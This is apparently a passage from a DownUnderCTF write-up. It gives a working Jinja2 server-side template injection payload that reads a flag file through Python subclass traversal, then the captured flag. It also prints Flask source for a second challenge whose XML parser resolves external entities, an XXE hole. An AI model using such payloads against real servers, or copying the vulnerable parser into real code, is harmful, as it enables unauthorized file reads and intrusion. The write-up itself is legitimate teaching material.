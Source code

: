Vulnerability Confirmed. Now to craft a payload.

I found a blog on how to exploit this vulnerability and crafted a payload. [Blog](https://payatu.com/blog/server-side-template-injectionssti/)

after following the steps to construct to payload through the blog i made the final payload

payload = `{% raw %}{{1337.__class__.__mro__[1].__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('./flag').read()}}{% endraw %}`

![flag](/assets/posts/DownUnder/ssti2.png)

And there we have the flag!

> FLAG : `DUCTF{PaRrOt_EmU_ReNdErS_AnYtHiNg}`

### zoo feedback form

*Challenge: The zoo wants your feedback! Simply fill in the form, and send away, we'll handle it from there! <br>
Author: richighimi*

We are given a website link and also the source code of the website.

Vulnerable Code

```python

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        xml_data = request.data
        print(xml_data.decode('utf-8'))
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

```